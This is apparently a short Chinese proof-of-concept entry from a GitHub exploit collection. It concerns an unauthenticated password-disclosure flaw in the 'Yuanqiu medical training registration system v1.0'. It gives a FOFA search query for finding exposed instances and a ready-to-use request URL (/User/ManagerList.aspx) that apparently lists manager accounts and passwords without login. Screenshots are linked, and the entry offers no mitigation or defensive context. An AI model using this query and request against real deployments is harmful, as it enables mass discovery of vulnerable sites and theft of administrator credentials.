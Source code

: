 ## 远秋医学培训系统未授权查看密码

## fofa
```
title="远秋医学培训报名系统v1.0"
```

## poc
```
http://127.0.0.1:9042/User/ManagerList.aspx?ty=1&ty=1
```
![image](https://github.com/wy876/POC/assets/139549762/3f34d7d5-b435-4a0b-8062-7f37156b3a89)

![image](https://github.com/wy876/POC/assets/139549762/84cbfb7b-c38e-4de7-8356-fb84c5fbed49)
